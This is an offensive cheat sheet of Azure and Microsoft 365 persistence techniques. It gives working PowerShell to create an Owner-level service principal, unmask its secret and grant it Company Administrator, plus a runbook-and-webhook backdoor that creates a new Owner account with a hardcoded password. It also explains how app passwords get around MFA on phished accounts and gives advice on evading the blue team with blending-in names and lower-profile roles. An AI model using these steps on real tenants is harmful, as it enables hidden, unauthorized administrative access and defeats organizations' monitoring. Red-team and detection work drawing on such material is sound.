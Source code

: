 # Persistence
## Index
* [Service principal backdoor](#Service-principal-backdoor)
* [0365 App passwords](#0365-App-passwords)
* [Guest user accounts](#Guest-user-accounts)
* [Runbook backdoor with webhook](#GRunbook-backdoor-with-webhook)
* [Service principal global admin](#Service-principal-global-admin)

## Service principal backdoor
```
$spn = New-AzAdServicePrincipal -DisplayName "WebService" -Role Owner
$spn
$BSTR = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($spn.Secret)
$UnsecureSecret = [System.Runtime.InteropServices.Marshal]::PtrToStringAuto($BSTR)
$UnsecureSecret
$sp = Get-MsolServicePrincipal -AppPrincipalId <AppID>
$role = Get-MsolRole -RoleName "Company Administrator"
Add-MsolRoleMember -RoleObjectId $role.ObjectId -RoleMemberType ServicePrincipal -RoleMemberObjectId $sp.ObjectId
#Enter the AppID as username and what was returned for $UnsecureSecret as the password in the Get-Credential prompt
$cred = Get-Credential
Connect-AzAccount -Credential $cred -Tenant “tenant ID" -ServicePrincipal
```

## 0365 App passwords
- Use case is for apps that can't use MFA
- Perfect scenario if you phish an account with MFA
- Click "Security & Privacy", Then " Additional security verification", then "Create and manage app passwords"
- Click “Create”, give the app password a name, then copy the value.
- This can now be used to access the account using legacy protocols without the MFA requirement

## Guest user accounts
- By default users can add “guest users” from outside the directory
- This provides (at minimum) read access to the directory
- Hybrid deployments may sync from Azure > On-Prem

## Runbook backdoor with webhook
- Create a new Automation account with “Create Azure Run As Account” enabled
- Navigate to Azure Active Directory > Roles and Administrators> User administrator
- Click Add Assignments • Search for your new automation account and add it
- Navigate to Subscriptions > subscription name > Access control (IAM)
- Click Add Role Assignment and add the automation account as an “Owner”
- Navigate back to Automation Accounts and select your new account
- Click “Modules Gallery”
- Search for “Az.”
- Import the Az.Accounts module
- Import the Az.Resources module
- Now we need to import the actual runbook
- In the Automation Accounts menu click “Runbooks”
- Click “Import a runbook”
- Save the script below as a ps1 file and modify the “user”, “password”, “Nickname”, and “DisplayName” to whatever you want it to be.
```
Import-Module Az.Accounts
Import-Module Az.Resources
$user = “username@targetdomain.com"
$pass = "BackdoorFTW!!"
$Nickname = "BackupSVC"
$DisplayName = "backup_service"
$connectionName = "AzureRunAsConnection"
$servicePrincipalConnection = Get-AutomationConnection -Name $connectionName
Connect-AzAccount -ServicePrincipal -TenantId $servicePrincipalConnection.TenantId -
ApplicationId $servicePrincipalConnection.ApplicationId -
CertificateThumbprint $servicePrincipalConnection.CertificateThumbprint
$SecureStringPassword = ConvertTo-SecureString -String $pass -AsPlainText -Force
New-AzADUser -DisplayName $DisplayName -UserPrincipalName $user -Password $SecureStringPassword -
MailNickname $Nickname
New-AzRoleAssignment -SignInName $user -RoleDefinitionName Owner
```
- When importing the script set a name to something similar to the standard Automation scripts “AzureAutomationTutorial”
- Set “Runbook Type” to PowerShell and click Create
- After the script is imported navigate to the runbook you just created and click “Webhooks” on the left, then Add Webhook
- Now give the webhook a name that will blend in like “backup”
- Make sure you copy the URL!!! This is the most important step.
- Now if the blue team catches you and cuts off your access you have a backdoor.
- All you have to do now is open a PowerShell terminal and run this to create a brand new Azure account that is owner of the subscription
- ```Invoke-WebRequest -Method Post -Uri <Webhook URL>```

## Service principal global admin
- This can be a bit less noticeable as service principal accounts do not show up in the Azure Active Directory “Users” list
-  Blue team should be alerting on new additions to global admins
- Instead of adding to “Company Administrator” just add it to “User Account Administrator” group.

#### Create a new service principal
- Note the “ApplicationId”. This is the service principal’s “username” for auth
```
$spn = New-AzAdServicePrincipal -DisplayName "WebService" -Role Owner
$spn
```

#### Get service principal's secret
- this is the password
```
$BSTR = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($spn.Secret)
$UnsecureSecret = [System.Runtime.InteropServices.Marshal]::PtrToStringAuto($BSTR)
$UnsecureSecret
```

#### Get the service principal using the application id
```
sp = Get-MsolServicePrincipal -AppPrincipalId <AppID>
```

#### Set the role
```
$role = Get-MsolRole -RoleName "Company Administrator"
```

#### Add the service principal as a role member
```
Add-MsolRoleMember -RoleObjectId $role.ObjectId -RoleMemberType ServicePrincipal -RoleMemberObjectId $sp.ObjectId
```

#### Check the role members
```
Get-MsolRoleMember -RoleObjectId $role.ObjectId
```

#### Authenticate as service principal
```
$cred = Get-Credential
Connect-AzAccount -Credential $cred -Tenant <Tenant ID> -ServicePrincipal
```
